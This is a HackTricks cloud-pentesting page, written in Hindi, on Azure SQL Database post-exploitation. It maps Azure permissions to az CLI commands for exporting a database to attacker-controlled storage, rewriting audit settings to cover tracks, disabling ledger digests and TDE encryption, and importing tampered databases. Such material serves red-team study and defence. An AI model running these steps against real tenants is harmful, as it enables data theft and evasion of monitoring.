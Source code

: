 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

SQL Database के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

इन अनुमतियों के साथ, एक हमलावर समझौता किए गए वातावरण में डेटाबेस बना और अपडेट कर सकता है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि एक हमलावर को दुर्भावनापूर्ण डेटा जोड़ने, डेटाबेस कॉन्फ़िगरेशन को संशोधित करने, या आगे की स्थिरता के लिए बैकडोर डालने की अनुमति दे सकती है, जिससे संचालन में बाधा आ सकती है या अतिरिक्त दुर्भावनापूर्ण क्रियाओं को सक्षम किया जा सकता है।
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
इन अनुमतियों के साथ (`Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`) आप एक हटाई गई डेटाबेस को पुनर्स्थापित कर सकते हैं:
```bash
az sql db restore \
--dest-name <new_database_name> \
--name <original_database_name> \
--resource-group <resource_group> \
--server <server_name> \
--deleted-time "<deleted_time_ISO_format>"

```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

इन अनुमतियों के साथ, एक हमलावर समझौता किए गए वातावरण में elasticPools बना और अपडेट कर सकता है। यह पोस्ट-एक्सप्लॉइटेशन गतिविधि एक हमलावर को दुर्भावनापूर्ण डेटा जोड़ने, डेटाबेस कॉन्फ़िगरेशन को संशोधित करने, या आगे की स्थिरता के लिए बैकडोर डालने की अनुमति दे सकती है, जो संभावित रूप से संचालन को बाधित कर सकती है या अतिरिक्त दुर्भावनापूर्ण क्रियाओं को सक्षम कर सकती है।
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

इस अनुमति के साथ, आप Azure SQL Server पर ऑडिटिंग सेटिंग्स को संशोधित या सक्षम कर सकते हैं। यह एक हमलावर या अधिकृत उपयोगकर्ता को ऑडिट कॉन्फ़िगरेशन में हेरफेर करने की अनुमति दे सकता है, संभावित रूप से ट्रैक को कवर करने या ऑडिट लॉग को उनके नियंत्रण में किसी स्थान पर पुनर्निर्देशित करने की अनुमति दे सकता है। यह सुरक्षा निगरानी में बाधा डाल सकता है या इसे क्रियाओं का ट्रैक रखने में सक्षम बना सकता है। नोट: Blob Storage का उपयोग करके Azure SQL Server के लिए ऑडिटिंग सक्षम करने के लिए, आपको एक स्टोरेज खाता संलग्न करना होगा जहाँ ऑडिट लॉग को सहेजा जा सके।
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

इस अनुमति के साथ, आप Azure SQL Server की कनेक्शन नीतियों को संशोधित कर सकते हैं। इस क्षमता का उपयोग सर्वर-स्तरीय कनेक्शन सेटिंग्स को सक्षम या बदलने के लिए किया जा सकता है।
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

इस अनुमति के साथ, आप Azure SQL Server से एक डेटाबेस को एक स्टोरेज अकाउंट में निर्यात कर सकते हैं। एक हमलावर या अधिकृत उपयोगकर्ता जिसके पास यह अनुमति है, वह डेटाबेस से संवेदनशील डेटा को एक ऐसी जगह पर निर्यात करके निकाल सकता है जिसे वह नियंत्रित करता है, जिससे डेटा लीक का एक महत्वपूर्ण जोखिम उत्पन्न होता है। इसे करने के लिए स्टोरेज कुंजी जानना महत्वपूर्ण है।
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

इस अनुमति के साथ, आप Azure SQL Server में एक डेटाबेस आयात कर सकते हैं। एक हमलावर या अधिकृत उपयोगकर्ता जिसके पास यह अनुमति है, संभावित रूप से दुर्भावनापूर्ण या हेरफेर किए गए डेटाबेस अपलोड कर सकता है। इससे संवेदनशील डेटा पर नियंत्रण प्राप्त करने या आयातित डेटाबेस के भीतर हानिकारक स्क्रिप्ट या ट्रिगर्स को एम्बेड करने की संभावना हो सकती है। इसके अतिरिक्त, आप इसे अपने स्वयं के सर्वर में Azure में आयात कर सकते हैं। नोट: सर्वर को Azure सेवाओं और संसाधनों को सर्वर तक पहुंचने की अनुमति देनी चाहिए।
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
### `Microsoft.Sql/servers/connectionPolicies/write` && `Microsoft.Sql/servers/connectionPolicies/read`

इन अनुमतियों के साथ, एक उपयोगकर्ता Azure SQL सर्वर की कनेक्शन नीतियों को संशोधित और प्राप्त कर सकता है। ये अनुमतियाँ किसी को सर्वर से कनेक्ट करने के तरीके को बदलने की अनुमति देती हैं—जैसे कि रीडायरेक्ट या प्रॉक्सी के बीच चयन करना—जिसका दुरुपयोग सुरक्षा को कमजोर करने, ट्रैफ़िक को रीडायरेक्ट करने, या संवेदनशील डेटा को इंटरसेप्ट करने के लिए किया जा सकता है यदि इसे गलत तरीके से कॉन्फ़िगर किया गया हो।
```bash
az sql server conn-policy update \
--resource-group <resource_group> \
--server <server_name> \
--connection-policy <policy>
```
### `Microsoft.Sql/servers/keys/write` && `Microsoft.Sql/servers/keys/read`

इन अनुमतियों के साथ, एक उपयोगकर्ता Azure SQL Server से जुड़े एन्क्रिप्शन कुंजियों को अपडेट और पुनर्प्राप्त कर सकता है। ये कुंजियाँ अक्सर एन्क्रिप्शन के माध्यम से संवेदनशील डेटा को सुरक्षित करने के लिए उपयोग की जाती हैं, इसलिए इन्हें संशोधित करना डेटा सुरक्षा को खतरे में डाल सकता है, जिससे अनधिकृत डिक्रिप्शन या कुंजी रोटेशन परिवर्तनों की अनुमति मिल सकती है।
```bash
az sql server key create \
--resource-group MyResourceGroup \
--server MyServer \
--kid "https://mykeyvault.vault.azure.net/keys/mykey/1234567890abcdef
```
### `Microsoft.Sql/servers/databases/ledgerDigestUploads/disable/action`, `Microsoft.Sql/locations/ledgerDigestUploadsAzureAsyncOperation/read`, `Microsoft.Sql/locations/ledgerDigestUploadsOperationResults/read`

यह अनुमति Azure SQL Database के लिए Ledger Digest को निष्क्रिय करने की अनुमति देती है, जो डेटा की अखंडता की पुष्टि करने वाले क्रिप्टोग्राफिक डाइजेस्ट रिकॉर्ड को Azure Blob Storage में आवधिक रूप से अपलोड करने को रोकती है।
```bash
az sql db ledger-digest-uploads disable \
--name ledgerDB \
--resource-group myResourceGroup \
--server my-sql-server
```
### `Microsoft.Sql/servers/databases/transparentDataEncryption/write`, `Microsoft.Sql/locations/transparentDataEncryptionAzureAsyncOperation/read`, `Microsoft.Sql/servers/databases/transparentDataEncryption/read`

यह अनुमति एक अधिकृत उपयोगकर्ता या हमलावर को Azure SQL डेटाबेस पर Transparent Data Encryption (TDE) सेटिंग्स को सक्षम, अक्षम या संशोधित करने की अनुमति देती है, जो एन्क्रिप्शन कॉन्फ़िगरेशन को बदलकर डेटा सुरक्षा को प्रभावित कर सकती है।
```bash
az sql db tde set \
--database <database-name> \
--resource-group <resource-group-name> \
--server <server-name> \
--status <Enabled|Disabled>
```
{{#include ../../../banners/hacktricks-training.md}}
